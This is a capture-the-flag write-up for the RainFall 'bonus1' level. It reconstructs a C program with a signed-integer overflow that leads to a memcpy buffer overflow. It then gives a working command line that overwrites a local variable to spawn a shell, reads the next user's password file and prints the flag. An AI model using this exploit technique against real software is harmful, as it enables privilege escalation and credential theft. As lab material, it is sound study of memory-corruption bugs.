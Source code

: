 # Bonus 1

<h3>source.c</h3>

```console
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char** argv) {
  int nb;                     -> esp+0x3c
  char str[40];               -> esp+0x14
  
  nb = atoi(argv[1]);
  if (nb <= 9) {
    memcpy(str, argv[2], nb * 4);
    if (nb == 0x574f4c46) {
			execl("/bin/sh", "sh", 0);
		}
  } else {
    return (1);
  }
  return (0);
}
```

<h3>Analysis</h3>

In this program, it will takes 2 param, `argv[1]` will be going through atoi and get converted into int

While `argv[2]` will be copied into char* str with `memcpy()` which can be exploited with buffer overflow

Our goal here will first be to insert a number less then 9 to get the `memcpy()` to run to inflict our attack

Next, we need to overflow the buffer to overwrite the `int nb` to become `0x574f4c46` so it will spawn the shell for us

<h3>Exploit</h3>

In order to overwrite `int nb`, we can see that the difference of address between `int nb (esp+0x3c)` - `char* str (esp+0x14)` is 40 bytes

But the biggest number we could put as `argv[1]` is 9, and the `memcpy()` will use this value * 4 to determine the write size, so the max we could write is 36 bytes

Fortunately, since `nb` is int, which is a signed value, we can take advantage of negative number!

Take a look at the example below

```console
-2147483637
| 0000 0000 0000 0000 0000 0000 0000 0000 |
| 1000 0000 0000 0000 0000 0000 0000 1011 |

-2147483637 * 4 =
| 0000 0000 0000 0000 0000 0000 0000 0010 |
| 1000 0000 0000 0000 0000 0000 0010 1100 |

We ignore the upper 32 bit, and only focus on the lower 32 bit, as this is 32bit int
So we get the following
| 1000 0000 0000 0000 0000 0000 0010 1100 |
Which is equal 44, enought to overflow the buffer

https://www.easycalculation.com/negative-binary-converter.php
```

So if we take the negative number `-2147483637` we will be able to satisfy the 1st condition of `nb <= 9`, also when it gets to multiplied by 9, we will get the result of `44`

We need offset of 40 + 4bytes to write `0x574f4c46` into the memory address of `int nb`, so this number `44` is perfect for us!

Lets try it out!

```console
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "a" * 40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```